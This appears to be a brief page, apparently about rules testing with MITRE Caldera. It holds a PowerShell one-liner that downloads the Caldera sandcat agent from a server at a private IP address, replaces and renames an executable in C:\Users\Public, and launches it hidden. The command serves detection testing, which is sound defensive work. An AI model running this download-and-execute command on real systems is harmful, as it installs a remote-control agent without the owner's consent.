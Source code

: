Tools: Conatins all the tools needed for Rules Testing 
https://github.com/mitre/caldera/issues/3064



$server="http://10.99.156.91:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\EDRDetectionCaldera.exe"} | stop-process -f;rm -force "C:\Users\Public\EDRDetectionCaldera.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\EDRDetectionCaldera.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\EDRDetectionCaldera.exe -ArgumentList "-server $server -group blue" -WindowStyle hidden;
